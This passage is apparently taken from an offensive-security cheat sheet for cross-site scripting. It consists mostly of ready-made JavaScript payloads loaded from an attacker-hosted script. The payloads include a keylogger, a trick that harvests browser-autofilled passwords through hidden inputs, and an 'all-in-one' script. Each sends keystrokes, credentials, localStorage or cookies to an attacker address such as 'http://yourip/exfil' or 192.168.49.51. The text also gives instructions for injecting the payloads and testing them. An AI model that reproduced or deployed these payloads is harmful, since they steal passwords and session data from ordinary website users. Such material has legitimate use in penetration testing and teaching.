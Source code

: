 		```function logKey(event){
		fetch("http://yourIP/k?key=" + event.key)}
		document.addEventListener('keydown', logKey);```
	Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`

* Stealing pw's from autofill prompts
	* From an external source (python webserver):
	<b>xss.js</b>
```
let body = document.getElementsByTagName("body")[0]
    var u = document.createElement("input");
    u.type = "text";
    u.style.position = "fixed";
    //u.style.opacity = "0";
  
    var p = document.createElement("input");
    p.type = "password";
   p.style.position = "fixed";
   //p.style.opacity = "0";
   body.append(u)
   body.append(p)
   setTimeout(function(){ 
           fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`

* All-in-one (Target all potential secrets if you dont know what you are after)
	* From an external source (python webserver):
	<b>xss.js</b>
```
let attacker = "http://yourip:80/exfil"

/* attach keylogger */
function logKey(event) {
        fetch(attacker + "?key=" + event.key)
}
document.addEventListener('keydown', logKey);

/* steal local storage */
let ls = encodeURIComponent(JSON.stringify(localStorage))
fetch(attacker + "?storage=" + ls)

/* steal cookies */
fetch(attacker + "?cookies=" + encodeURIComponent(document.cookie))
```
	
Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`


<b>Remember if any of your payloads don't seem to work, take any script code you want to run and place it in the browser console to verify it's working</b>
